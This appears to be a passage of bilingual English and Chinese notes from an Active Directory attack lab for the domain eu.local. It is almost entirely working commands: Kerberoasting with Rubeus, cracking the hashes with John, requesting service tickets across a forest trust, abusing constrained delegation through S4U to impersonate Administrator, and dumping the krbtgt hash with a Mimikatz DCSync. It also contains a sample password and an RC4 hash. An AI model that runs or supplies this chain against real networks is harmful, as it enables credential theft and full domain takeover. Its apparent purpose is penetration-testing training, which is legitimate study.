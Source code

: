 请求tgs
```
C:\AD\Tools\Rubeus.exe kerberoast /user:storagesvc /simple /domain:eu.local /outfile:euhashes.txt
```

Check for the TGS
```
klist
```
Crack using John
```
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

Request TGS across trust using PowerShel
```
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList MSSQLSvc/eu-file.eu.local@eu.local
```

# Privilege Escalation – Constrained Delegation with Protocol Transition（域权限提升，约束委派与协议转换）

• The classic Constrained Delegation does not work across forest trusts.（经典的约束委派不适用于跨林信任）
• But we can abuse it once we have a beachhead/foothold across forest trust（但是一旦我们获得了立足点，我们就可以滥用它）

PowerView
```
Get-DomainUser –TrustedToAuth -Domain eu.local

Get-DomainComputer –TrustedToAuth -Domain eu.local
```

ActiveDirectory module:
```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server eu.local
```

我们可以使用 Rubeus 请求alternate ticket
```
C:\AD\Tools\Rubeus.exe hash /password:Qwerty@2019 /user:storagesvc /domain:eu.local
```

然后使用s4u模块，请求一个ldap服务的tgs
```
C:\AD\Tools\Rubeus.exe s4u /user:storagesvc /rc4:5C76877A9C454CDED58807C20C20AEAC /impersonateuser:Administrator /domain:eu.local /msdsspn:nmagent/eu-dc.eu.local /altservice:ldap /dc:eu-dc.eu.local /ptt
```

Abuse the TGS to LDAP:
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:eu\krbtgt /domain:eu.local"'
```
